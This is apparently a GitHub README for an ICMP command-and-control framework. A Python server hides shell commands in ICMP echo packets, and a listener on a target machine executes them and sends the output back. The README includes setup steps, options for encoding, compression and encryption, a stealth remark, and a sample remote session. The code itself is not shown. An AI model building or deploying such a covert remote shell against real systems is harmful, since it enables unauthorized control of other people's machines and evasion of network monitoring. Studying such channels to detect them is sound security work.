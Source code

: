 


# ICMP Command & Control Framework

This project provides a pair of Python scripts that demonstrate **command and control (C2) over ICMP**:

- **Server** (`icmp_command_server.py`)  
  - Sends commands to connected listeners using ICMP Echo Requests.  
  - Receives and processes responses from listeners.  
  - Manages active listener sessions via heartbeats.  

- **Listener** (`icmp_listener.py`)  
  - Runs on a target machine.  
  - Receives ICMP Echo Requests from the server, extracts and executes commands.  
  - Sends command output back via ICMP Echo Replies.  
  - Sends periodic heartbeats to let the server know it is alive.  

> ⚠️ **Disclaimer**: This framework is for **educational and authorized security research only**.  
> Unauthorized use of this tool on networks you do not own or control is illegal.

---

## Features

- **Server**
  - Interactive shell interface
  - `list` command to show active listeners
  - Supports command broadcast to all listeners
  - Handles chunked responses for large outputs

- **Listener**
  - Executes received commands via system shell
  - Sends responses back in multiple chunks if needed
  - Periodic heartbeat system to notify the server of availability

- **Shared Options**
  - Configurable **ICMP ID** and **TTL**
  - Data encoding: `plain`, `base64`, `hex`
  - Optional compression
  - Optional encryption with [Fernet](https://cryptography.io/en/latest/fernet/) symmetric keys
  - Chunked transmission for large payloads

---

## Requirements

- Python **3.7+**
- [Scapy](https://scapy.net/)  
- [cryptography](https://pypi.org/project/cryptography/)

Install dependencies:

```bash
pip install scapy cryptography
````

---

## Usage

### 1. Configure the Listener

Edit the listener script (`icmp_listener.py`) and set your **server IP** at the top:

```python
SERVER_IP = "10.218.248.63"  # Change to your server's IP
```

---

### 2. Start the Server

```bash
python3 icmp_command_server.py -i <INTERFACE> [options]
```

### 3. Start the Listener

```bash
python3 icmp_listener.py -i <INTERFACE> [options]
```

---

## Arguments

Both **server** and **listener** support the following options:

| Option              | Description                                                         | Default      |
| ------------------- | ------------------------------------------------------------------- | ------------ |
| `-i`, `--interface` | Network interface to sniff and send packets on                      | **Required** |
| `--icmp-id`         | ICMP identifier value                                               | `13170`      |
| `--ttl`             | Time-to-live for sent IP packets                                    | `64`         |
| `--encoding`        | Data encoding method (`plain`, `base64`, `hex`)                     | `plain`      |
| `--compress`        | Enable compression before sending                                   | Disabled     |
| `--encrypt`         | Enable encryption (requires `--key`)                                | Disabled     |
| `--key`             | Encryption key for Fernet (must be provided if `--encrypt` is used) | None         |
| `--chunk-size`      | Maximum size (bytes) per packet payload                             | `500`        |

---

## Example Commands

### Run server with base64 encoding and compression

```bash
python3 icmp_command_server.py -i eth0 --encoding base64 --compress
```

### Run listener with encryption enabled

```bash
# Generate a Fernet key
python3 -c "from cryptography.fernet import Fernet; print(Fernet.generate_key().decode())"

# Run listener with encryption
python3 icmp_listener.py -i wlan0 --encrypt --key <YOUR_KEY>
```

### Send commands from server

Inside the server’s interactive shell:

```
shell> list
Connected listeners:
  - 10.218.248.42

shell> whoami
shell> uname -a
shell> exit
```

---

## Packet Flow Diagram

```
[Server] --(ICMP Echo Request + Command)--> [Listener]
[Listener] --(ICMP Echo Reply + Response)--> [Server]
[Listener] --(ICMP Echo Request + Heartbeat)--> [Server]
```

---

## Security Notes

* **Encryption**: Use Fernet with a shared key between server and listener for confidentiality.
* **Compression**: Reduces packet size, potentially helping with stealth.
* **Encoding**: Use `base64` or `hex` for safer transmission of binary data.
* **Detection**: ICMP-based C2 can be detected by IDS/IPS systems monitoring unusual ICMP payloads.

---

## Disclaimer

This software is intended **solely for research, learning, and authorized security testing**.
The author assumes no liability for misuse. Always ensure you have explicit permission before testing on any network.

---

```
```
